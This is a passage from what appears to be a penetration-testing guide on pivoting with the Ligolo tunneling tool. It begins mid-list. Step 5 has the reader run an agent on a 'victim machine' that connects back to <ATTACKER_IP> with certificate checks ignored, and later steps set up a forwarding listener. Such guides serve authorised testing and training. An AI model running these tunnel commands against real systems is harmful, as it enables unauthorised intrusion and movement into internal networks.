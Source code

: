    ```bash 
   ```
5. Transfer and run the Ligolo agent on the victim machine:
   ```bash 
   ./agent -connect <ATTACKER_IP>:<PROXY_PORT> -ignore-cert
   ```
6. Establish the session from the proxy and type `start` to begin routing.

### Handling Reverse Connections:
If the victim machine cannot initiate connections to the attacker:

1. Set up a listener:
   ```bash 
   listener_add -addr 0.0.0.0:8080 --to 127.0.0.1:80
   ```
2. List active listeners:
   ```bash 
   listener_list
   ```
   ![netrunner](/assets/images/netrunner.gif)